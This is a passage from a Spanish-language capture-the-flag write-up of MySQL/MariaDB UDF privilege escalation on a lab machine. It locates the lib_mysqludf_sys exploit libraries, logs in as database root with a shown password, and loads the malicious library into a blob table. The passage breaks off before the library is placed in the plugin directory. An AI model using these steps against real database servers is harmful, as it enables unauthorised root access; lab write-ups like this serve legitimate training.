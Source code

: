 
> Información de la vulnerabilidad en [https://book.hacktricks.xyz/](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation)
{: .prompt-info}

> Explicación mas detallada de la vulnerabilidad [MYSQL UDF Explotation](https://www.exploit-db.com/docs/english/44139-mysql-udf-exploitation.pdf?rss)
{: .prompt-info}

Explotación:

> Antes de todo buscamos la librería maliciosa y la pasamos a la máquina víctima, para ello la buscamos en nuestra máquina con `locate "*lib_mysqludf*"` y escogemos la correcta de acuerdo al **OS (Operative System)** y **arquitectura del objetivo (32-bit, 64-bit)**

```console
❯ locate "*lib_mysqludf*"
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.dll
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.so
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so
/usr/share/sqlmap/data/udf/mysql/linux/32/lib_mysqludf_sys.so_
/usr/share/sqlmap/data/udf/mysql/linux/64/lib_mysqludf_sys.so_
/usr/share/sqlmap/data/udf/mysql/windows/32/lib_mysqludf_sys.dll_
/usr/share/sqlmap/data/udf/mysql/windows/64/lib_mysqludf_sys.dll_
```

> En cualquier caso que no la encuentres puedes buscarla con `searchsploit mysql UDF` o también en la misma web [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)
{: .prompt-tip}

> Ahora Entramos como `root` a la base de datos `mysql`

```console
svc@noter:~/tmp$ mysql -s -uroot -pNildogg36
MariaDB [(none)]> use mysql;
MariaDB [mysql]>
```

> Creamos una tabla llamada `privesc` que tendrá un campo de tipo `blob` **(tipo de dato para almacenar objetos binarios como archivos, imagenes, etc)**

```sql
MariaDB [mysql]> create table privesc(library blob);
```

> Insertamos dentro de nuestra tabla la librería `lib_mysqludf_sys_64.so` con la función `load_file(<path_file>)`

```sql
MariaDB [mysql]> insert into privesc values(load_file('/tmp/lib_mysqludf_sys_64.so'));
```

> Tenga en cuenta pasar la ruta completa y exacta de la libería para no tener errores que te vuelen la cabeza, estamos?
{: .prompt-warning}

> Ahora debemos colocar la librería en el directorio donde se encuentran los **plugins** de `MariaDB` y así poder usarla
